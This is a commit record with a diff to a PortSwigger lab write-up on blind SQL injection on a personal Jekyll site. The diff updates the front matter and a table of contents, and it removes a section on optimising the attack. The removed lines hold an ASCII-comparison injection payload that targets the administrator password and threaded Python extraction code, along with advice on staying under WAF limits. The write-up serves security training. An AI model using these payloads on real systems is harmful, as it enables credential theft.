

Before and after one commit to 7anfu/7anfu.github.io, a Jekyll site: the page built from _writeups/writeup-blind-sqli-conditional-responses.md, in a window 1280 px wide and 1400 px high, scrolled down 13525 px. Shown: the top 1389 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; grey boxes are pictures that could not be loaded.

Commit message:
adding custom ToC to Portswigger writeup
Updated the title and tags for clarity. Removed advanced optimization techniques section. Added conditional response variations and emphasized the importance of parameterized queries for defense.

````diff
--- a/_writeups/writeup-blind-sqli-conditional-responses.md
+++ b/_writeups/writeup-blind-sqli-conditional-responses.md
@@ -1,11 +1,29 @@
 ---
 layout: writeup
-title: "PortSwigger Lab: Blind SQL Injection with Conditional Responses"
+title: "Blind SQLi: Conditional Responses"
 platform: "PortSwigger"
-os: "web"
+os: "Web"
 difficulty: "Practitioner"
 date: 2025-12-05
-tags: [sql-injection, blind-sqli, web-security, portswigger, credential-extraction, python-automation]
+tags: [sql-injection, blind-sqli, bscp, python, burp-suite]
+excerpt: "Exploiting boolean-based blind SQL injection to extract credentials character by character using conditional responses."
+toc:
+  - title: "Lab Overview"
+    anchor: "lab-overview"
+  - title: "Understanding Blind SQLi"
+    anchor: "understanding-boolean-based-blind-sql-injection"
+  - title: "Confirming the Vulnerability"
+    anchor: "phase-1-confirming-the-vulnerability"
+  - title: "Database Fingerprinting"
+    anchor: "phase-2-database-fingerprinting"
+  - title: "Password Length"
+    anchor: "phase-3-password-length-determination"
+  - title: "Character Extraction"
+    anchor: "phase-4-character-by-character-extraction"
+  - title: "Lab Completion"
+    anchor: "phase-6-lab-completion"
+  - title: "Key Concepts"
+    anchor: "key-concepts-summary"
 ---
 
 # Blind SQL Injection: Exploiting Conditional Responses for Credential Extraction
@@ -477,54 +495,6 @@
 [+] Password: *******
 ```
 
-## Phase 5: Advanced Optimization Techniques
-
-### Binary Search Optimization
-
-Rather than testing each character sequentially (O(n) per position), binary search reduces complexity to O(log n):
-
-```sql
--- Instead of: is char = 'a'? is char = 'b'? is char = 'c'?
--- Ask: is char > 'm'?
-
-' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='administrator') > 109-- -
-```
-
-The ASCII function converts a character to its numeric value, enabling greater-than/less-than comparisons. For a 36-character alphabet:
-
-- **Sequential search:** Average 18 requests per character
-- **Binary search:** Maximum 6 requests per character (log₂(36) ≈ 5.17)
-
-For a 20-character password:
-- **Sequential:** ~360 requests
-- **Binary search:** ~120 requests (3x faster)
-
-### Concurrent Extraction
-
-Each character position is independent, allowing parallel extraction. Using Python's threading or async capabilities:
-
-```python
-import concurrent.futures
-
-def extract_character(position):
-    """Extract a single character at the given position."""
-    for char in CHARSET:
-        payload = build_payload(position, char)
-        if test_payload(payload):
-            return (position, char)
-    return (position, None)
-
-# Extract all positions concurrently
-with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
-    futures = [executor.submit(extract_character, pos) for pos in range(1, 21)]
-    results = [f.result() for f in concurrent.futures.as_completed(futures)]
-
-# Sort by position and reconstruct password
-password = ''.join(char for pos, char in sorted(results))
-```
-
-**Warning:** Excessive concurrency may trigger rate limiting or WAF rules. Balance speed against stealth.
-
 ### Conditional Response Variations
 
 The "Welcome back" message used in this PortSwigger lab is just one example of a conditional response. Real-world applications may exhibit different indicators:
````
Also changed, not shown: other parts of _writeups/writeup-blind-sqli-conditional-responses.md (+3 -3 lines).
